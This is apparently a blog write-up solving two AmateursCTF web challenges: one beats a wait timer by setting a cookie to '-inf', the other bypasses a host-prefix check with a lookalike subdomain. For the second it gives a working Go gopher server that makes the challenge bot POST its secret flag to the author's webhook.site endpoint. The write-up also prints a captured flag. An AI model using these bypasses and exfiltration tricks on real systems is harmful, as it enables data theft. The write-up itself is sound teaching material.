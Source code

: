 ```yaml
---
layout: post
title: AmateursCTF Web Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[AmateursCTF](https://ctf.amateurs.team/)  
[Event on CTFtime](https://ctftime.org/event/1983)

3 web challenge writeups in this post:
- [wait-an-eternity](#wait-an-eternity)
- [go-gopher](#go-gopher)

## wait-an-eternity

- Description: 
> My friend sent me this website and said that if I wait long enough, I could get and flag! Not that I need a flag or anything, but I've been waiting a couple days and it's still asking me to wait. I'm getting a little impatient, could you help me get the flag?
- Author: voxal
- Entry point: [waiting-an-eternity.amt.rs](https://waiting-an-eternity.amt.rs/)

### First eternity

The webpage just had text "just wait an eternity". When inspect the request, there is a "Refresh" header with a huge value and url with a secret code.

![First eternity](/assets/image/amateursctf-web-writeup/first-eternity.png)

### Another eternity

Visit the url in the "Refresh" header, it shows a page saying "welcome. please wait another eternity.".

Inspect the request, it sets a cookie "time" with a value appears to be the current timestamp like `1690326049.1573777`. With the cookie set, refresh the page, and the page shows text like "you have not waited an eternity. you have only waited 228.13574051856995 seconds". The time mentioned in the message appears to be the difference between the current timestamp and the timestamp in the cookie.

Sets the cookie to a large value, it says have only waited a large negative number of seconds. Sets the cookie to a negative value, it says have waited a large number of seconds, but there is still no flag.

The message told to wait an eternity, but how long is an eternity? The internet says the definitions of eternity is "[infinite time](https://www.dictionary.com/browse/eternity)", "[time that never ends](https://dictionary.cambridge.org/dictionary/english/eternity)" or "a very long time". Hmm, how long the website would consider to be an eternity? Look up gunicorn that appears to be the web server according to the response header, the website is running Python. In Python, a number (except `-inf`) minus `-inf` would be `inf`. So, if the cookie value is `-inf`, the number of seconds have waited would be `inf`, and website would consider it to be an eternity.

![Another eternity](/assets/image/amateursctf-web-writeup/another-eternity.png)

After two eternities, I got the flag:

```
amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}
```

#### Speculation

The web server is probably taking value from the cookie, and use `float()` to convert it to a float, thus `float('-inf')` would be float `-inf`. Number of seconds waited is calculated by subtracting the float value from the current timestamp. (Actually, yes, can confirm with the [source code](https://github.com/les-amateurs/AmateursCTF-Public/blob/b9b40a55969e3e1553ed14e66bb460a9370db509/2023/web/waiting-an-eternity/main.py#L18))

## go-gopher

- Description:
> psst... i know flag sharing isn't allowed, and i found this page where someone seems to be recieving flags from someone else. can you somehow find a way to hijack this site so it gives me flags? thanks.
- Author: voxal
- Entry point:
  - gopher://amt.rs:31290/
  - [gopher-bot.amt.rs](https://gopher-bot.amt.rs/)
- Downloads:
  - [bot.go](https://amateurs-prod.storage.googleapis.com/uploads/7c93488d980366dd6255b08e1bb8ac751565508920151011276c964116df5479/bot.go)
  - [main.go](https://amateurs-prod.storage.googleapis.com/uploads/b652421619610ac09116d516ac4f659ac95d73402048c96e29cfb2ad183104f7/main.go)

### The challenge

Submit and Visit function for bot

```go
func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	if err != nil || !strings.HasPrefix(u.Host, "amt.rs") {
		w.Write([]byte("Invalid url"))
		return
	}
	w.Write([]byte(Visit(r.Form.Get("url"))))
}
func Visit(url string) string {
	fmt.Println(url)
	res, err := gopher.Get(url)
	if err != nil {
		return fmt.Sprintf("Something went wrong: %s", err.Error())
	}
	h, _ := res.Dir.ToText()
	fmt.Println(string(h))
	url, _ = strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(url)
	_, err = http.Post(url, "text/plain", bytes.NewBuffer(flag))
	if err != nil {
		return "Failed to make request"
	}
	return "Successful visit"
}
```

The bot will make Gopher request to the url provided, extract the URL from the selector of the 3rd item (at index 2) in the response, and make a POST request to the URL with the flag.

The bot does restrict the host of the Gopher url to start with `amt.rs`, however this can be easily bypassed with subdomain like `gopher://amt.rs.cjxol.com:31290/`. The the server can response with my URL in the relative position, the bot would make a POST request to my URL with the flag. The URL for the POST request is not restricted.

![go-gopher flag](/assets/image/amateursctf-web-writeup/go-gopher-flag.png)

Here is my Gopher server code:
```go
package main
import (
        "fmt"
        "log"
        "git.mills.io/prologic/go-gopher"
)
func hello(w gopher.ResponseWriter, r *gopher.Request) {
        w.WriteInfo("Hello!")
        w.WriteInfo("again")
        w.WriteItem(&gopher.Item{
                Selector:       "https://webhook.site/[reducted]",
        })
        fmt.Println("hello")
}
func main() {
        gopher.HandleFunc("/", hello)
        log.Fatal(gopher.ListenAndServe("0.0.0.0:31337", nil))
}
```

Here is the Gopher response:
```
iHello!         error.host      1
iagain          error.host      1
        https://webhook.site/[reducted]       ::      31337
.
```
